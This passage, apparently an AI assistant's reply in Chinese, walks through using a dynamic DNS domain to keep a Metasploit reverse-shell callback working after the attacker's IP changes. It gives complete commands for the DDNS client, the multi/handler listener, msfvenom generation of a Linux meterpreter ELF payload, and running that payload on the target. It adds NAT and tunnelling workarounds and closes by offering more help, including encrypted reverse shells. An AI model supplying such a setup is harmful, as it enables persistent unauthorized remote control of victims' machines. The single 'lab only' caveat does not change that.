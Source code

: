 **效果**
即使你的公网 IP 变了，只要 DDNS 客户端更新成功，Payload 依然能连接回来。

---

## 6. 注意事项

* **防火墙端口映射（NAT 转发）**：如果攻击机在路由器后面，需要在路由器上把 LPORT（如 4444）映射到你的内网 IP。
* **公网 IP**：移动宽带、4G/5G 常用 CGNAT（共享公网 IP），需使用 VPS 中转或反向隧道（FRP、Ngrok）。
* **域名解析延迟**：免费 DDNS 更新到全网 DNS 可能有几秒到几分钟延迟。
* **实验隔离**：DDNS 域名可能被杀软记录，务必在实验环境中使用。

---

## 7. 实验流程分终端示例

### 终端 1（攻击机 - 麒麟/Kali）

```bash
# 运行 DDNS 客户端
sudo noip2
# 启动 Metasploit 监听
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST myhacker.ddns.net
set LPORT 5555
run
```

### 终端 2（生成 Payload）

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=myhacker.ddns.net LPORT=5555 -f elf -o kylin_payload.elf
```

### 终端 3（靶机 - 麒麟/Windows）

```bash
chmod +x kylin_payload.elf
./kylin_payload.elf
```

---

我可以帮你画一个 **DDNS 在 Metasploit 攻击链中的流程图**，
把“IP变化 → DDNS更新 → Payload连接”的过程直观画出来。
这样你一看就能明白为什么替换固定 IP 成域名可以一直用。

你要我帮你画吗？这样比纯文字更清晰。

我给你拆开讲一下 **反弹回来的监听加密**（Reverse Shell + Encryption）这个概念，帮你从原理到实现思路弄清楚。

---
